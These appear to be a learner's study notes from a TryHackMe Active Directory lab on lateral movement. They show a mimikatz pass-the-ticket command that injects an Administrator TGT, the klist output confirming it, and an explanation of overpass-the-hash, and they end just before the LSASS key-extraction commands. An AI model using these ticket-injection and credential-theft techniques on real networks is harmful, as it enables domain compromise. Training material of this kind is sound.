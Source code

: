 ##### Injecting tickets into current session
- Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:
```powershell
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

	- How do I know which ticket is TGT or which one is TGS?

- Injecting tickets in our own sessions does NOT require admin privileges.
- After this, the tickets will be available for any tools we use for `lateral movement`.

		- How exactly does this acheive lateral movement? Keep reading the room.

##### Checking for `injected tickets` in current session:
- To check if the tickets were correctly injected, you can use the `klist` command:

```powershell
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```


### Overpass-the-hash / Pass-the-**key**

- This kind of attack is similar to Pass-The-Hash but applied to Kerberos networks.

- When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password.
- The algorithm used to derive this key can be either `DES`(disabled by default on current Windows versions), `RC4`, `AES128`, or `AES256`, depending on the installed Windows version and Kerberos configuration.

		- I guess the encryption algorithm for the encrypted timestamp is public knowledge.

- If we have any of those keys, we can ask the `KDC` for a `TGT` without requiring the actual password, hence the name `Pass-the-key(PtK)`.


##### Obtaining Kerberos encryption keys from LSASS memory
- We can obtain the Kerberos encryption keys from memory by using `mimikatz` with the following commands:
